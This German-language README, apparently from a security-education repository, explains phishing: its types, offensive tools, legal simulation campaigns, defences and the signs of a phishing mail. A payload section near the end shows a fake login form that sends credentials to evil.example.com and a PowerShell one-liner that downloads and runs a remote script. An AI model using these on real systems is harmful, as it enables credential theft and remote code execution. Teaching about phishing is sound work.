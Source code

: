 # 🎣 Phishing – Social Engineering im Cyberspace

## 🔍 Was ist Phishing?

**Phishing** ist eine Form des Social Engineerings, bei der Angreifer versuchen, sensible Informationen wie Zugangsdaten, Kreditkarteninformationen oder vertrauliche Unternehmensdaten durch Täuschung zu erlangen. Dies geschieht meist über gefälschte E-Mails, Webseiten oder Nachrichten, die von legitimen Quellen zu stammen scheinen.

---

## 🧠 Warum ist Phishing gefährlich?

- Keine technische Schwachstelle notwendig – der Mensch ist das Ziel
- Sehr hohe Erfolgsquote bei ungeschulten Nutzern
- Einstiegspunkt für weitere Angriffe (z. B. Ransomware, interne Pivoting-Angriffe)
- Auch technische Fachkräfte sind nicht immun

---

## 🎯 Typen von Phishing

| Typ                 | Beschreibung |
|---------------------|--------------|
| **Spear Phishing**  | Gezielte Angriffe auf bestimmte Personen, z. B. CFO, Admin |
| **Whaling**         | Hochrangige Zielpersonen (z. B. CEO, Vorstände) |
| **Clone Phishing**  | Duplikation legitimer E-Mails mit schädlichem Link/Anhang |
| **Voice Phishing (Vishing)** | Phishing über Telefonanrufe |
| **SMS Phishing (Smishing)** | Täuschung über SMS/WhatsApp-Nachrichten |
| **Pharming**        | Weiterleitung des Opfers über manipulierte DNS-Einträge |
| **Credential Harvesting** | Abgreifen von Zugangsdaten über gefälschte Login-Seiten |

---

## 🛠️ Tools & Frameworks

### ⚙️ Offensive Tools (nur zu Bildungszwecken!)

| Tool                 | Beschreibung |
|----------------------|--------------|
| **GoPhish**          | Open-Source Phishing Framework für Kampagnen |
| **SET (Social-Engineer Toolkit)** | Sammlung von Angriffsmethoden inkl. Mail- und Web-Phishing |
| **King Phisher**     | Phishing-Simulation mit E-Mail-Tracking |
| **Evilginx2**        | Man-in-the-middle Phishing mit 2FA-Bypass |
| **Modlishka**        | Reverse Proxy Phishing Tool |
| **Phishery**         | Word-Dokumente mit eingebetteten Login-Prompts |
| **Blackeye / Zphisher** | Templates für bekannte Login-Seiten (nur mit Zustimmung erlaubt!) |

---

## 🧪 Phishing-Kampagnen simulieren (Legal!)

### 🔐 Legal Compliance beachten
- Nur in Testumgebungen oder mit Zustimmung aller Beteiligten
- Für Awareness-Trainings & Security Audits
- DSGVO-konform planen und dokumentieren

### 📧 Beispielhafte Simulationskampagne
1. Zielgruppe auswählen (z. B. bestimmte Abteilung)
2. E-Mail-Typ auswählen (z. B. Paketdienst, Microsoft-Login, Urlaubsantrag)
3. Landing Page imitieren (z. B. Office365)
4. Tracking aktivieren (z. B. Klicks, Eingaben, Reaktionen)
5. Reporting & Schulung bereitstellen

---

## 🛡️ Schutzmaßnahmen gegen Phishing

### 🚫 Technische Maßnahmen
- SPF, DKIM, DMARC korrekt konfigurieren
- E-Mail-Gateway mit Phishing-Filter
- Browser-Warnungen aktivieren (z. B. Google Safe Browsing)
- 2FA/MFA verpflichtend einsetzen

### 🧠 Awareness & Schulung
- Regelmäßige Trainings für Mitarbeiter:innen
- Simulierte Phishing-Kampagnen
- Wiederholende Reminder („Nicht auf alles klicken“)

### 🔐 Weitere Maßnahmen
- Passwortmanager verwenden
- Kein „Passwort-Recycling“
- Prüfung der URL vor Eingabe von Login-Daten
- Anti-Phishing-Banner in E-Mails einbinden

---

## 🧾 Typische Merkmale einer Phishing-Mail

- Dringlichkeit („Ihr Konto wird gelöscht!“)
- Schlechte Grammatik / Übersetzung
- Absenderadresse gefälscht
- Linktext ≠ Ziel-URL
- Ungewöhnliche Anhänge (z. B. .iso, .lnk, .html)
- Emotionale Trigger (z. B. Angst, Belohnung)

---

## 🔬 Beispielhafte Payloads & Angriffsformen

```html
<!-- Gefälschte Login-Seite (Credential Harvesting) -->
<form action="http://evil.example.com/login" method="post">
  <input type="text" name="username" />
  <input type="password" name="password" />
</form>
```

```powershell
# Phishing-Anhang per PowerShell
IEX (New-Object Net.WebClient).DownloadString("http://evil.example.com/payload.ps1")
```

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---


## 📚 Nützliche Quellen & Lernmaterialien
- [GoPhish Project](https://github.com/gophish/gophish)
- [SET – Social Engineer Toolkit](https://github.com/trustedsec/social-engineer-toolkit)
- [Modlishka](https://github.com/drk1wi/Modlishka)

